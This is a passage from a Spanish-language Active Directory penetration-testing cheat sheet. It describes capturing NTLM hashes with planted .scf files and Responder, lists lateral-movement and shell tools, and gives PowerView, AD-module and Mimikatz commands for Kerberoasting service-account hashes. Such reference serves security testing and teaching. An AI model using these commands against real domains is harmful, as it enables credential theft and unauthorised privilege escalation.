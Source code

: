 ```

Colocar estos archivos en un recurso compartido con permisos de escritura para la víctima Solo hay que abrir el explorador de archivos y navegar hasta el recurso compartido. **Nota**: No es necesario abrir el archivo ni que el usuario interactúe con él, pero debe estar en la parte superior del sistema de archivos o visible en la ventana del explorador de Windows para que se pueda renderizar. Use Responder para capturar los hashes.

Los ataques con archivos .scf no funcionan en las últimas versiones de Windows.

### Herramientas útiles

- [Powercat](https://github.com/besimorhino/powercat) netcat está escrito en PowerShell y ofrece funciones de tunelización, retransmisión y redireccionamiento de puertos. - [SCShell](https://github.com/Mr-Un1k0d3r/SCShell) Herramienta de movimiento lateral sin archivos que se basa en ChangeServiceConfigA para ejecutar comandos.
- [Evil-Winrm](https://github.com/Hackplayers/evil-winrm) La shell WinRM definitiva para hacking/pentesting.
- [RunasCs](https://github.com/antonioCoco/RunasCs) Versión CSharp y abierta del runas.exe integrado de Windows.
- [ntlm_theft](https://github.com/Greenwolf/ntlm_theft.git) Crea todos los formatos de archivo posibles para ataques de URL.

## Escalada de Privilegios de Dominio

### Kerberoast

¿QUÉ ES ESTO?:_ \
Todos los usuarios de dominio estándar pueden solicitar una copia de todas las cuentas de servicio junto con sus hashes de contraseña correspondientes, por lo que podemos solicitar a un TGS cualquier SPN vinculado a una cuenta de usuario. Extraer el blob cifrado con la contraseña del usuario y ejecutarlo por fuerza bruta sin conexión. - PowerView:

```powershell
#Obtener las cuentas de usuario que se usan como cuentas de servicio
Get-NetUser -SPN

#Obtener todas las cuentas SPN disponibles, solicitar un TGS y volcar su hash
Invoke-Kerberoast

#Solicitar el TGS para una sola cuenta:
Request-SPNTicket

#Exportar todos los tickets usando Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

- Módulo AD:

```powershell
#Obtener las cuentas de usuario que se usan como cuentas de servicio
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

